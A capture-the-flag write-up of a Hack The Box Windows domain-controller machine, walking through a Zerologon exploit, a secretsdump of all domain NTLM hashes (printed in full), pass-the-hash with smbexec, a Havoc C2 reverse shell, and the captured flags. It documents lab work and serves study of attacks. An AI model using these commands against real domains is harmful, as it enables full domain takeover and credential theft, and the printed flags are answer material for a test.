 ### Challenge description
FullPwn challenges don't have a description. We just get an IP address and are supposed to get user and root flag.

I got both user AND root flags for this challenge via unintended means.

A port scan shows we are dealing with a Windows AD machine:

```nmap
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-15 19:03:58Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
443/tcp   open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-07-15T19:05:27+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=contempt.htb/organizationName=Contempt
| Subject Alternative Name: DNS:nextcloud.contempt.htb
| Not valid before: 2023-05-18T17:43:41
|_Not valid after:  2073-05-18T17:53:41
|_http-title: Not Found
445/tcp   open  microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: CONTEMPT)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc             Microsoft Windows RPC
49719/tcp open  msrpc             Microsoft Windows RPC
57830/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: dc01
|   NetBIOS computer name: DC01\x00
|   Domain name: contempt.htb
|   Forest name: contempt.htb
|   FQDN: dc01.contempt.htb
|_  System time: 2023-07-15T12:04:49-07:00
```
It seems we have a Nextcloud instance on port 443:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5e32bc94-1c82-4941-9e9b-ef52d42c3442)

As I usually do, when first seeing a Domain Controller, I check for known vulnerabilities and a good one to check for is `zerologon`. We can do that easily using crackmapexec:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6db62cb4-8165-4cb0-8f8a-577a930ef9f1)

It seems it is vulnerable. I cloned this repo: https://github.com/risksense/zerologon and tried to set an empty password for the DC.

```bash
./set_empty_pw.py DC01 contempt.htb
```
It took a bit of time, I was starting to think it was a false positive but we got there eventually. The exploit worked:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/269b3455-2d22-4dcd-ac00-2a622e429e84)

I used secretsdump.py to get all the hashes from the DC:

```bash
secretsdump.py -just-dc -no-pass DC01\$@contempt.htb
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6c8f447c25487adc9148b0a90036c6a8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d8d6f9644b7ef09c5c9d12d01a18bc7a:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
contempt.htb\svc-ldap:1104:aad3b435b51404eeaad3b435b51404ee:b6fa6cd30819a545a7f12a76b54b6e84:::
contempt.htb\seraphina.blake:1601:aad3b435b51404eeaad3b435b51404ee:2f320b121f6ae368a35ba9819e0d2516:::
contempt.htb\phoenix.reed:1602:aad3b435b51404eeaad3b435b51404ee:8213160e905b6817df4ee0c2c8b48e12:::
contempt.htb\cipher.stone:1603:aad3b435b51404eeaad3b435b51404ee:a5e12330358741a01370caf5dc316f86:::
contempt.htb\zero.summers:1604:aad3b435b51404eeaad3b435b51404ee:b8e7d7f4e6361c680c24f0a7bdd6e92a:::
contempt.htb\viper.hollow:1605:aad3b435b51404eeaad3b435b51404ee:744574681328753ff5c843b8d3c100a2:::
contempt.htb\matrix.cross:1606:aad3b435b51404eeaad3b435b51404ee:2c03a59578699559cc2940d712fd964d:::
contempt.htb\orion.swift:1607:aad3b435b51404eeaad3b435b51404ee:928e41a48e0597ec9747c7b6b9fd86db:::
contempt.htb\aria.frost:1608:aad3b435b51404eeaad3b435b51404ee:9d0827ca3f062bddb35f88bc5bf15158:::
contempt.htb\echo.rivers:1609:aad3b435b51404eeaad3b435b51404ee:a7be11b5be8bb84196edbd0e8c0bc9ea:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc-adfs$:1103:aad3b435b51404eeaad3b435b51404ee:b62f7224fe2c58991ed0b7f29fcb2734:::
[*] Kerberos keys grabbed
<snipped>
```

I was able to use the administrator's NTLM hash to confirm that the DC has been pwned.

```bash
crackmapexec smb contempt.htb -u administrator -H 6c8f447c25487adc9148b0a90036c6a8 --shares
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0ec4b7e0-611d-4771-973f-ccb7501cf8d4)

Interestingly enough, we don't see C$ or ADMIN$ shares writable or at all. But we do see NETLOGON. We can use `smbexec.py` to get a foothold and we must use `-share` flag to specify the share where we want our payload to be executed from:

```bash
smbexec.py contemp.htb/administrator@contempt.htb -hashes :6c8f447c25487adc9148b0a90036c6a8 -share NETLOGON
```

We get a semi-interactive shell and can read the administrator flag.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8f39bcda-1c7e-4a64-a814-dc4b02d47e1a)

HTB{good_d@y_For_PhiSH1N6_On_mARS}

### Privilege de-escalation?!

Curiously, we can't find the user flag anywhere via the shell we have. I wanted better access so I uploaded a Havoc C2 implant and got a reverse shell there. Then I executed the following command to recursively search for specific pattern in the entire filesystem:

```powershell
shell powershell -command "ls -fo -r \ -erroraction silentlycontinue | sls -pattern 'HTB{' -erroraction silentlycontinue"
```

After a while, we get the user flag out of a .vhdx file:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/89843c7b-8dfd-4f6f-bfc0-7c31264f29d6)

HTB{aDFs_K1LLcHAIn_put5_y0U_oN_clOuD9}

